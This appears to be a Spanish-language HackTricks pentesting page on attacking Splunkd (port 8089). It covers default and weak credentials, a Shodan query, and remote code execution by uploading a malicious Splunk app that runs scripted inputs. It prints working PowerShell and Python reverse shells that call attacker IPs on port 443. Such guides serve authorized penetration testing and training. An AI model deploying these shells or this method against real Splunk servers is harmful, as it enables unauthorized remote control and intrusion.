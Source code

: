 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Información Básica**

* Herramienta de análisis de registros utilizada para la recopilación, análisis y visualización de datos
* Comúnmente utilizada en monitoreo de seguridad y análisis de negocios
* Puertos predeterminados:
* Servidor web: 8000
* Servicio Splunkd: 8089

### Vectores de Vulnerabilidad:

1. Explotación de la Versión Gratuita

* La versión de prueba se convierte automáticamente en la versión gratuita después de 60 días
* La versión gratuita carece de autenticación
* Riesgo de seguridad potencial si se deja sin gestionar
* Los administradores pueden pasar por alto las implicaciones de seguridad

2. Debilidades de Credenciales

* Versiones más antiguas: Credenciales predeterminadas `admin:changeme`
* Versiones más nuevas: Credenciales establecidas durante la instalación
* Potencial para el uso de contraseñas débiles (por ejemplo, `admin`, `Welcome`, `Password123`)

3. Oportunidades de Ejecución Remota de Código

* Múltiples métodos de ejecución de código:
* Aplicaciones Django del lado del servidor
* Puntos finales REST
* Entradas scriptadas
* Scripts de alerta
* Soporte multiplataforma (Windows/Linux)
* Las entradas scriptadas pueden ejecutar:
* Scripts Bash
* Scripts de PowerShell
* Scripts por lotes

Potencial Clave de Explotación:

* Almacenamiento de datos sensibles
* Falta de autenticación en la versión gratuita
* Múltiples vectores para potencial ejecución remota de código
* Posibilidad de aprovechar entradas scriptadas para comprometer el sistema

### Shodan

* `Splunk build`

## RCE

### Crear Aplicación Personalizada

Splunk ofrece un método sofisticado para la ejecución remota de código a través del despliegue de aplicaciones personalizadas, aprovechando sus capacidades de scripting multiplataforma. La técnica de explotación central gira en torno a la creación de una aplicación maliciosa que puede ejecutar shells inversos en sistemas tanto Windows como Linux.

Una aplicación personalizada puede ejecutar **scripts de Python, Batch, Bash o PowerShell**. Además, **Splunk viene con Python instalado**, por lo que incluso en sistemas **Windows** podrás ejecutar código python.

Puedes usar [**este**](https://github.com/0xjpuff/reverse_shell_splunk) ejemplo con el **`bin`** que contiene ejemplos para [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) y [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). O podrías crear el tuyo propio.

El proceso de explotación sigue una metodología consistente a través de plataformas:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
El archivo de configuración crítico `inputs.conf` habilita el script mediante:

* Estableciendo `disabled = 0`
* Configurando un intervalo de ejecución de 10 segundos
* Definiendo el tipo de fuente del script

El despliegue es sencillo:

1. Crear el paquete de aplicación maliciosa
2. Configurar un listener (Netcat/socat) en la máquina atacante
3. Subir la aplicación a través de la interfaz de Splunk
4. Activar la ejecución automática del script al subir

Ejemplo de shell reversa de Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Ejemplo de shell inverso de Python en Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Escalación de Privilegios

En la siguiente página puedes encontrar una explicación de cómo este servicio puede ser abusado para escalar privilegios y obtener persistencia:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referencias

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
